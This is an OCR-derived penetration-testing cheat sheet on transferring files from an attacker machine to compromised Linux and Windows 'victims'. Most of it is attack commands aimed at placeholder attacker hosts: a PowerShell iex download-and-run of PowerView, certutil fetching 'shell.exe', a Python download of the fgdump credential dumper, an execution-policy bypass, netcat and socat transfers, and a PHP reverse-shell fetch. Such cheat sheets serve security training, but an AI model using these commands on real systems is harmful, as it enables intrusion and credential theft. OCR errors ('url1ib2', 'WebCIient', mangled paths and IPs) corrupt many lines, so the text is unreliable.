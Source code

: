 # Transfer files to VICTIM

## Kali Atttacker 
#### Host file(s)

- SCP:  `scp local_file.txt USER@HOST_IP: /tmp/remote_file.txt`
- SSH:  `sudo systemctl start ssh`
- FTP:  `systemctl start pure-ftpd`

- Web 
   - WWWtree:  `python3 /opt/wwwtree/wwwtree.py -r N/transfer/ -i tunø -p 80`
   - Python:  `sudo python -m SimpleHTTPServer 80`
   - Python3:  `sudo python3 -m http.server 80`
   - PHP:  `sudo php -s e.o.ø.ø:8ø`
   - Apache:  `service apache2 start`
   - ruby:  `ruby -run -e httpd . -p 9000`
   - ruby:  `ruby -rwebrick -e "WEBrick::HTTPServer.new(:Port => 8080, : DocumentRoot Dir.pwd).start"`

- netcat:  `nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe`
- Socat:  `sudo socat file: <FILE-NAME>`
- SMB: `impacket` `sudo impacket-smbserver share $(pwd) -smb2support`
- RDP:  `rdesktop` `rdesktop $ip —u <username> -p <password> -r disk:tmp=$(pwd)`
- Evil-winRM: `evil-winrm` `upload filename.exe`


## Linux Victim

#### SSH
- `sudo systemctl start ssh`

#### SCP
- `scp /Loca1/Target/Detination`

#### FTP 
- `ftp <IP-ATTACKER>`

- Multiple files `mget <FILE-*>`

- Single files `get <FILE-NAME>`

#### Web
- `curl http://<IP-ATTACKER>/<FILE> -o <file>`

- `wget http://<IP-ATTACKER>/<FILE>`

#### netcat
- `nc -nlvp 4444 > incoming. sh`


## Windows Victim

#### FTP
```
open <IP-ATTACKER>
<USERNAME>
<PASSSWORD>
binary
mget file.exe
disconnect
quit
```

`ftp -i -s:ftp.txt`

`ftp <IP-ATTACKER>`
`mget <FILE-NAME>`
`get <FILE-NAME>`

### Web
`powershell —ExecutionPolicy Bypass`

   ```powershell
   iex( new-object
   net.webclient).downloadstring('(https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
   ```

   ```sh
   powershell -c "(new-object
   System . Net. WebCIient) . DownloadFiIe ( ' http:/ /<IP-
   ATTACKER>/wget. exe ' , 'C: Wsers\Public exe' ) "
   ```

   `curl http://<IP-ATTACKER>/<FILE> -o <file>`

   `certutil -urlcache -f http://IP-attacker/fi1ename.exe shell.exe`


#### PHP
`<?php file_put_contents>("/tmp/php-reverse.txt", fopen("http://<rse—shell.txt", "r")); ?>`

#### Python
`python.exe -c "import url1ib2; print url1ib2.urlopen('http://<IP-ATTACKER>/fgdump.exe').read()" >fgdump.exe`

#### Netcat
`nc -nlvp 4444 > incoming. exe`

#### Socat
`socat TCP4:10.11.0.4:443 file:<FILE-NAME>,create`

#### SMB
`copy exe C: \\0.0.0.0\share\filename.exe C:\users\public\music\filename.exe`

#### RDP
`Just copy via the GUI`

#### winRM
